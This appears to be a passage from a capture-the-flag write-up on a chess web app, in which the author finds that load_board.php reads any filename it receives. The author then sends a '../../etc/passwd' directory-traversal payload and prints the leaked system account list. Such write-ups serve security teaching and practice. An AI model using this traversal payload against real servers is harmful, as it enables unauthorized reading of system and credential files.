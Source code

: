 ```js
function load_baseboard() {
  const url = "load_board.php"
  let xhr = new XMLHttpRequest()
  const formData = new FormData();
  formData.append('filename', 'baseboard.fen')

  xhr.open('POST', url, true)
  xhr.send(formData);
  window.location.href = "index.php";
}
```

It sends a file name to the server at the `load_board.php` endpoint.

Maybe we can make it so the server loads a board in a winning position for us? But it only receives a filename as input. Hmm...directory traversal maybe?

Let's rerun the code so the browser sends the request without the redirection and we can see the response:

```
Loading Fen: rnbqkbnr/pppppppp/8/8/8/8/PPPPPPPP/RNBQKBNR w KQkq - 0 1
```

Okay, this indeed seems like a setup for the board in some form, where each letter represents a piece (p = peon for instance), and `8` indicates an empty row. Capitals represents white. Unsure what the rest means (`w KQkq - 0 1`), but we might be able to figure it out later.

Anyway, let's try to traverse by passing `../../etc/passwd` in the file name (assuming we're at the home directory of some user, going up twice should suffice).

Well, the server returns `500 Internal Server Error`, but the response includes interesting content

```
Loading Fen: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
user:x:1000:1000::/home/user:/bin/sh
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
```
